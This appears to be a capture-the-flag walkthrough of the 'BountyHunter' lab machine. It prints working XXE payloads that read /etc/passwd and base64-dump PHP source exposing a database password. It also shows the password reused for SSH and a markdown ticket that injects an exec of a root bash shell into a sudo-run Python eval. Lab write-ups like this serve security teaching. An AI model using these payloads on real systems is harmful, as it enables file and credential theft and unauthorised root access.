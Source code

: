 # Enumeration

Starting with nmap
```bash
Nmap scan report for 10.10.11.100
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds
```

Looking at port 80, we have a website with only one link which leads to portal.php. Navigating to the page, we see a message of under maintainance, and link to another page. 

### PORT 80
```bash
ffuf -u http://10.10.11.100/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php                                                                                  
________________________________________________                                                                                                                         
 :: Method           : GET
 :: URL              : http://10.10.11.100/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                                                                                              
__________________________________________                                                                                                                         
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
.htpasswd.php           [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
.hta.php                [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
                        [Status: 200, Size: 25169, Words: 10028, Lines: 389]                                                                                       
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
.htaccess.php           [Status: 403, Size: 277, Words: 20, Lines: 10]                                                                                             
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]                                                                                             
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]                                                                                             
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]                                                                                                 
index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]                                                                                       
index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]                                                                                       
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]                                                                                            
portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]                                                                                             
resources               [Status: 301, Size: 316, Words: 20, Lines: 10]                                                                                             
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

On basic enumeration, we found resource folder with directory listing on. It had couple of interesting files.

```
# File: Readme.txt
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```
Looking at the js files on the server, we saw one with source code 
```javascript
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```
The `/log_submit.php` initiate the above code, making an post requests to `tracker_diRbPr00f314.php` with the user input in XML form. Looking at code, it might be vulnerable to XXE attack.

Intercepting the request, our data was sent in base64 encoded form, which we can easily decode. Changing the data to our payload, and encode it with base64 and send. *(Initially, it will not work as our base64 data need to be url encoded too)*. 

Encoding the payloads and sending to server, we got our output
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>1</cwe>
		<cvss>1</cvss>
		<reward>1</reward>
		</bugreport>
```

We were able to extract content of passwd file, but not for any php code. *Maybe cause server is running php, so any php code, instead of displaying raw it executes it*. 

To exfil source code of any php file, we need to use php filters.
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=/var/www/html/db.php'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>1</cwe>
		<cvss>1</cvss>
		<reward>1</reward>
		</bugreport>
```
We got the output, base64 decoding it gave us the source code
```php
// db.php file

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
We have a password and usernames from passwd file, we can try to ssh in the box. Indeed it worked.

## Shell as development
Grab the user.txt file.

Checking for sudo permission, we saw we can run
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Looking at the script
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            print(ticketCode)
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                print(f"validation num: {validationNumber}")
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Here, the script looks for .md extension, and check the content of the files to be in specific order. But, looking at the code, we can see a line `validationNumber = eval(x.replace("**", ""))`. Eval function can be dangerous. Here we need to make a markdown file and eventually hit the eval function to get our malicious code to execute.

Markdown file can be created as follows:
```markdown
# Skytrain Inc
## Ticket to abc
__Ticket Code:__
**11+exec('''import os;os.system('/bin/bash -p')''')
```

Running the python script with above markdown file gave us Root :D
